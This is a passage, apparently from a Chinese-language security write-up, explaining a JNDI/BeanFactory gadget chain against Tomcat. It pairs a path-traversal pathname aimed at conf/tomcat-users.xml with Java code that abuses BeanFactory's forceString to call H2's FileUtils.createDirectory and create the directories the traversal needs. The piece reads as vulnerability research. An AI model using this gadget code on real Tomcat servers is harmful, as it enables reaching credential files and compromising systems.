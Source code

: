 
pathname是一个URL，catelina_base=`/path/to/tomcat/`

若pathname=`http://127.0.0.1:8888/../../conf/tomcat-users.xml`

则拼装的文件路径为`/path/to/tomcat/http:/127.0.0.1:8888/../../conf/tomcat-users.xml`

该路径在Windows下可以直接判定成功。但linux下必须要求目录跳转前的路径必须存在，需要在tomcat目录下创建`http:/127.0.0.1:8888/`目录。

可以采用`org.h2.store.fs.FileUtils#createDirectory(String)`结合BeanFactory进行创建，其代码如下：

```java
private static ResourceRef tomcatMkdirFrist() {
    ResourceRef ref = new ResourceRef("org.h2.store.fs.FileUtils", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
    ref.add(new StringRefAddr("forceString", "a=createDirectory"));
    ref.add(new StringRefAddr("a", "../http:"));
    return ref;
}
private static ResourceRef tomcatMkdirLast() {
    ResourceRef ref = new ResourceRef("org.h2.store.fs.FileUtils", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
    ref.add(new StringRefAddr("forceString", "a=createDirectory"));
    ref.add(new StringRefAddr("a", "../http:/127.0.0.1:8888"));
    return ref;
}
```

因为要在 CATALINA.BASE创建目录，所以需要从工作目录CATALINA.BASE/bin 向上跳一级，分别执行 tomcatMkdirFrist 和 tomcatMkdirLast ，这样 CATALINA.BASE目录下就会创建出一个 `http:`目录和它的子目录`127.0.0.1:8888`。

经过save方法校验进入后：

![alt text](img/6.png)
